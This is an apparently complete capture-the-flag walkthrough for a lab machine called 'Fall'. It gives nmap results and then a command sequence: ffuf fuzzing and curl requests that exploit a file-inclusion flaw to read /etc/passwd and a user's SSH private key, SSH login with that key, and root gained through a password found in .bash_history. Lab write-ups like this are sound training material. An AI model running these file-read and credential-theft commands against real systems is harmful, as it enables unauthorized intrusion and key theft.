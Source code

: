 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Fall
# 28/12/2022

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT     STATE  SERVICE     VERSION
22/tcp   open   ssh         OpenSSH 7.8 (protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.39 ((Fedora) OpenSSL/1.1.0i-fips mod_perl/2.0.10 Perl/v5.26.3)
111/tcp  closed rpcbind
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
443/tcp  open   ssl/http    Apache httpd 2.4.39 ((Fedora) OpenSSL/1.1.0i-fips mod_perl/2.0.10 Perl/v5.26.3)
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp open   mysql       MySQL (unauthorized)
8000/tcp closed http-alt
8080/tcp closed http-proxy
8443/tcp closed https-alt
9090/tcp open   http        Cockpit web service 162 - 188


----------------------------------------------------
exploitation
----------------------------------------------------

ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://192.168.1.7/test.php?FUZZ=/etc/passwd' -fs 80

curl http://192.168.1.7/test.php?file=/etc/passwd

curl http://192.168.1.7/test.php?file=/home/qiu/.ssh/id_rsa

ssh -i id_rsa qiu@10.0.2.23     
cat .bash_history
echo "remarkablyawesomE" | sudo -S dnf update

sudo su
remarkablyawesomE

----------------------------------------------------
Flag
----------------------------------------------------
[root@FALL ~]# cat proof.txt 
Congrats on a root shell! :-)
